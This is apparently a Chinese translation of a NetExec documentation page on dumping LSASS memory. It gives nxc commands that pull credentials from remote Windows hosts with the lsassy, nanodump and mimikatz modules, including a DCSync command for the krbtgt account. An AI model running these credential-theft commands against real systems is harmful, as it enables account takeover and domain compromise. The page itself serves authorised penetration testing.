 # 导出 LSASS

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

### 使用 Lsassy

使用 [@pixis](https://twitter.com/HackAndDo) 的 Lsassy 模块，你可以远程导出凭证

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M lsassy
```

### 使用 nanodump

使用 nanodump 模块你可以远程导出凭证

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M nanodump
```

### 使用 Mimikatz (已弃用)

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

使用 Mimikatz 模块，将在远程目标上执行 `Invoke-Mimikatz.ps1` PowerShell 脚本

```
#~ nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz
```

```
#~ nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"
```
